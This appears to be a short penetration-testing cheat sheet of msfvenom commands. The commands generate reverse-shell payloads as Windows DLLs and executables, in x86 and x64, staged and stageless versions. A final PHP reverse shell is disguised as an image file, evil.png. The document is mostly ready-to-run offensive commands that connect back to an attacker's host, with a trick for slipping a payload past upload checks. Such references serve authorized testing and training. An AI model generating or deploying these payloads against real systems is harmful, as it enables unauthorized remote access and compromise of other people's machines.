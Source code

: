 ### :open_file_folder: Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

### :open_file_folder: Windows

- dll

x86(try first)

```
msfvenom -p windows/shell_reverse_tcp -f dll -o xxx.dll LHOST=<IP> LPORT=<PORT>
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o xxx.dll LHOST=<IP> LPORT=<PORT>
```

- exe

Staged Payloads for Windows

x86

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

Stageless Payloads for Windows(try first)

x86

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

x64

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### :open_file_folder: PHP

```
msfvenom -p php/reverse_php LHOST=<local ip> LPORT=<local port> -f raw -b '"' > evil.png
echo -e "<?php $(cat evil.png)" > evil.png 
```
